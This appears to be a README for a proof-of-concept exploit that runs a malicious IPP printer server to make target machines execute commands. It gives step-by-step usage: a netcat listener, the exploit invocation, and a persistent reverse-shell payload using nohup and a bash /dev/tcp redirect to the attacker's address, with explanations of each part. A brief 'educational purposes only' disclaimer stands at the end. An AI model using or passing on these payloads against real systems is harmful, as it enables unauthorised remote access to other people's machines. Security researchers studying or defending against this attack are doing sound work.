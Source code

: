 # Exploit - Malicious IPP Reverse Shell Exploit

## Overview
Exploit is a proof-of-concept exploit script that takes advantage of the Internet Printing Protocol (IPP) to execute a remote reverse shell on a target machine. This exploit works by emulating a malicious IPP printer server, sending payloads to vulnerable systems to execute arbitrary commands.

This script has been derived and extended from various sources, including EvilSocket's original exploit script. Modifications have been made to improve reliability and incorporate additional features, such as keeping the reverse shell active even when the IPP server terminates. This was achieved by using `nohup` and background execution (`&`) for payload commands.

## Features
- Uses Python to set up a malicious IPP server that emulates a vulnerable printer.
- Allows remote command execution on a target machine by using the IPP protocol.
- Uses `nohup` to decouple the reverse shell from the main service, keeping the reverse shell alive even when the service is terminated.

## Requirements
- Python 3.x
- ippserver library (install using `pip install ippserver`)
- Netcat (for establishing the reverse shell listener)

## Installation
To use this script, you will need to install the required dependencies.

```bash
pip install ippserver
```

## Usage
To execute the exploit, you will need to run a Netcat listener on your machine to receive the incoming shell from the target. Once the listener is up and running, execute the exploit script to send the payload.

### Step 1: Set Up the Listener
First, set up a Netcat listener on your local machine (the attacker's machine) to wait for the incoming connection from the target machine.

```bash
nc -lvnp 9001
```

### Step 2: Run the Exploit Script
Execute the script with the following parameters:
- `LOCAL_HOST`: Your local IP address (attacker's IP).
- `TARGET_HOST`: The IP address of the target machine.
- `COMMAND`: The command to be executed on the target to create the reverse shell.

Example command:

```bash
python3 exploit.py 10.10.14.12 10.10.11.40 'nohup bash -c "bash -i >& /dev/tcp/10.10.14.12/9001 0>&1" &'
```

### Parameters
- `10.10.14.12`: Your local IP address where you are hosting the malicious IPP server and waiting to receive the shell.
- `10.10.11.40`: The IP address of the target machine.
- `'nohup bash -c "bash -i >& /dev/tcp/10.10.14.12/9001 0>&1" &'`: The command to create a reverse shell, executed in the background to keep the connection alive independently.

### Explanation
- **`nohup`**: Keeps the shell running after the main process exits.
- **`bash -i >& /dev/tcp/10.10.14.12/9001 0>&1`**: Redirects both standard output and standard error to the attacker's machine (`10.10.14.12`) on port `9001`.
- **`&`**: Puts the command into the background, decoupling it from the parent process.

## Script Details
The script sets up an IPP server that emulates a malicious printer with custom attributes. When a request is made by a client to list printer attributes or perform other IPP operations, the server sends back a payload that causes the target machine to execute the specified reverse shell command.

### Main Components
- **MaliciousPrinter Class**: Extends the `StatelessPrinter` class to create a printer that injects malicious attributes. This allows arbitrary command execution.
- **ServerContext Class**: Manages the lifecycle of the IPP server and ensures clean shutdowns.
- **Reverse Shell Execution**: Payload is sent in the printer's response, with `nohup` and background execution (`&`) used to keep the reverse shell alive.

## Credits
- **Arman Sadri (ArmanTheCyber)**: Original adaptation and improvements to make the exploit more reliable.
- **EvilSocket**: Provided the basis for the initial exploit script, which was modified and enhanced in this project.
- **ippsec**: Inspiration for practical exploitation techniques and walkthroughs that helped make this exploit more efficient.
- **CVE Authors**: Acknowledgment to the researchers behind the vulnerabilities leveraged in IPP-based attacks.

## Legal Disclaimer
This script is intended for educational purposes only. Any use of Exploit to target systems without the explicit consent of the system owner is illegal. The author is not responsible for any misuse or damage caused by this script.

## Contributing
If you'd like to contribute to this project or improve its features, feel free to fork the repository and submit a pull request. Any constructive feedback or suggestions are always welcome.

## License
This project is licensed under the MIT License. Please see the `LICENSE` file for more information.

